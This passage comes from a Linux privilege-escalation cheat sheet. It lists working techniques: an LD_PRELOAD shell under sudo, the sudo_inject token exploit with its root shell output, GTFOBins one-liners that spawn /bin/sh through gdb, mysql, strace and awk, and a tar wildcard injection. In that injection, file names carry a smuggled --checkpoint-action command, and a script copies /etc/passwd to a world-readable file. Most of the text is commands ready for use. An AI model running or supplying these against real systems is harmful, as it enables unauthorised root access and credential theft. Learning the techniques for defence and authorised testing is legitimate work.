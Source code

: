 Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

    permit nopass demo as root cmd vim

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

    $ sudo whatever
    [sudo] password for user:    
    # Press <ctrl>+c since you don't have the password. 
    # This creates an invalid sudo tokens.
    $ sh exploit.sh
    .... wait 1 seconds
    $ sudo -i # no password required :)
    # id
    uid=0(root) gid=0(root) groups=0(root)

Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)

## GTFOBins

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit sudo mysql -e '! /bin/sh' strace -o /dev/null /bin/sh sudo awk 'BEGIN {system("/bin/sh")}'

## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

    # create file for exploitation
    touch -- "--checkpoint=1"
    touch -- "--checkpoint-action=exec=sh shell.sh"
    echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh
    
